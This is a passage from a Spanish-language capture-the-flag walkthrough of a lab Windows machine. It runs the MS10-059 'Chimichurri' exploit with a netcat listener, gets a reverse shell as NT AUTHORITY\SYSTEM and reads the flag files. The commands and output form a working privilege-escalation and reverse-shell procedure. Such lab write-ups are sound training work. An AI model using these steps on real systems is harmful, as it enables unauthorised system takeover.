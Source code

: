 Ejecutaremos el binario de `MS10-059.exe` y comprobaremos el funcionamiento correcto de la aplicación. Al parecer, al ejecutar el binario e indicarle nuestra dirección IP y puerto, deberemos de recibir una Reverse Shell con permisos de `Administrator`.

```powershell
C:\ProgramData>MS10-059.exe
MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos nuevamente el binario indicándole nuestra dirección y puerto donde nos encontramos en escucha.

```powershell
C:\ProgramData>MS10-059.exe 10.10.16.3 443
MS10-059.exe 10.10.16.3 443
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

Verificamos que finalmente hemos podido ganar acceso al sistema como usuario `NT AUTHORITY\SYSTEM` y podemos visualizar las flags **user.txt** y **root.txt**.

```powershell
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.5] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ProgramData>whoami
whoami
nt authority\system

C:\ProgramData>type C:\Users\babis\Desktop\user.txt
type C:\Users\babis\Desktop\user.txt
0a94ba0*************************

C:\ProgramData>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
2a3a25e*************************
```
